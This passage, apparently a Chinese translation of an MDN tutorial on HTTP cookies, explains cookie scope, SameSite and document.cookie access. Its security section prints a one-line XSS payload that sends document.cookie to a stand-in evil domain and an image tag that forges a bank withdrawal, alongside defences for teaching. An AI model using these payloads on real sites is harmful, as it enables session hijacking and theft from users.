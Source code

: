 > `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly`

### Cookie的作用域
`Domain` 和 `Path` 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。

Domain 标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名。

例如，如果设置 Domain=mozilla.org，则Cookie也包含在子域名中（如developer.mozilla.org）。

Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。

例如，设置 Path=/docs，则以下地址都会匹配：
```
/docs
/docs/Web/
/docs/Web/HTTP
```

### SameSite Cookies 
SameSite Cookie允许服务器指定在跨站请求时该Cookie是否会被发送，从而可以阻止跨站请求伪造攻击（`CSRF`）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。

### JavaScript通过Document.cookies访问Cookie
通过Document.cookie属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。
```javascript
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```
请留意在安全节提到的安全隐患问题，JavaScript可以通过跨站脚本攻击（`XSS`）的方式来窃取Cookie。

## 安全
> 当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。

### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看OWASP CSRF<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>。
